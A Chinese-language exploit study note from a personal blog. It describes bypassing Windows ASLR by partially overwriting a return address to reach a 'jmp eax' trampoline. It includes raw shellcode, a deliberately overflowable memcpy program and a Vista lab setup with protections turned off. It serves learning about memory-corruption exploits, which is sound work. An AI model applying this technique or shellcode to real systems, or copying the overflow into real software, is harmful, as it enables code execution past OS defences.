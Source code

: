 ```yaml
---
title: 漏洞学习笔记-018-利用部分覆盖定位
description: 利用部分覆盖定位shellcode
slug: exploit-018
date: 2020-11-26 17:54:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/p/exploit-018/)

## 原理

- 映像随机化指示对映像加载基址的全两个字节随机化处理，这样做的后果是跳板始终可用，因此可以利用这一点去绕过ASLR
- 如果攻击memcpy的话，可以将返回值控制在`0xXXXX0000`~`0xXXXXFFFF`之间，而攻击str类函数攻击，可以将控制地址为`0xXXXX0100`~`0xXXXX00FF`之间的一个

## 过程

- 首先在编译完的程序内找到一条jmp eax的汇编码，随后将它的地址的低word作为`off by word`的地址，填入shellcode
- 计算好缓冲区大小，溢出后即可正常

## 代码

```cpp
#include <memory.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x2A\x23" // off by word
;

char* test()
{
	char tt[256];
	memcpy(tt, shellcode, 262);
	return tt;
}

int main()
{
	char temp[200];
	test();
	return 0;
}
```

## 开始实验

> 实验环境：系统：Windows Vista SP0，系统DEP状态：Optin默认，编译器：Visual Studio 2008，优化：禁用优化，GS选项：关闭，DEP选项：/NXCOMPAT:NO，build版本：release

- 编译程序，运行，直接弹出窗口并成功，重启也一样，如图

![成功](https://s3.ax1x.com/2020/11/28/Dyps2t.png)
